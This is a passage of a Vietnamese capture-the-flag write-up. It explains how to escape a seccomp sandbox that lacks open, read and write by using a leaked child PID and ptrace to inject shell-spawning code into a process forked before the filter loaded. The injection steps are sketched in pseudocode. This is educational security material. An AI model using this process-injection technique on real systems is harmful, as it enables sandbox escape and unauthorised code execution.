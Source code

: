 Chương trình gọi fork trước khi bắt đầu vào flow của user.
Ở trong flow của user ta thấy chương trình cho phép allocate shellcode ở trên một địa chỉ rồi cho phép ta thực thi shellcode đó, nhưng trước khi thực hiện lại load seccomp vào.

```c
void __cdecl ProtectProgram()
{
...

  ctx = (scmp_filter_ctx)seccomp_init(0LL);
  ret = seccomp_rule_add(ctx, 2147418112LL, 4LL, 0LL);
  reta = seccomp_rule_add(ctx, 2147418112LL, 5LL, 0LL) | ret;
...
  rets = seccomp_rule_add(ctx, 2147418112LL, 231LL, 0LL) | retr;
  if ( (unsigned int)seccomp_load(ctx) | rets )
  {
    perror("seccomp");
    exit(1);
  }
  seccomp_release(ctx);
} 
```

Kiểm tra những syscall được phép:

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/817b84f4-d300-4e21-8def-8c5bfcf26454)

Oh no, không có `open, read, write` thì sao đọc flag T_T.

Tuy nhiên để ý kĩ thì chương trình có cho leak `pid` của process con ra trước khi ta muốn chạy shellcode:
```c
case 2:
            puts("Debug information:");
            printf("Child PID = %d\n", (unsigned int)pid);
            break;
```

Seccomp filter có cho phép hàm `ptrace`, ta biết được `pid` của process con, chưa kể process con được fork ra trước khi load seccomp vào ...

Thế là sau một hồi loay hoay, mình nghĩ đến việc sử dụng hàm `ptrace` để ghi đè memory và `$rip` của process con.

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/671624b5-95da-4437-958c-1635b9aca59a)

Để ý nữa thì chương trình `NO PIE`, vậy thì mình sẽ thử ghi đè ở trong `_text` segment của process con là một đoạn shellcode rồi sửa `$rip` của nó trỏ tới đó.

Ý tưởng cho shellcode sẽ là:
```c 
ptrace(PTRACE_ATTACH,child_pid,0,0); // attach
ptrace(PTRACE_POKEDATA,child_pid,_start,shellcode_sh); // một vòng lặp sửa dần bytecode của hàm _start thành shellcode gọi shell ra
ptrace(PTRACE_POKEDATA,child_pid,sleep@got,_start);
ptrace(PTRACE_GETREGS,child_pid,0,$rsp+0x100); // dump struct user_reg ra stack*
*(int64_t *)($rsp+0x100+16*8) = sleep@plt ; // sửa $rip = sleep@plt
ptrace(PTRACE_SETREGS,child_pid,0,$rsp+0x100); // commit
ptrace(PTRACE_DETACH,child_pid,0,0); // detach
```
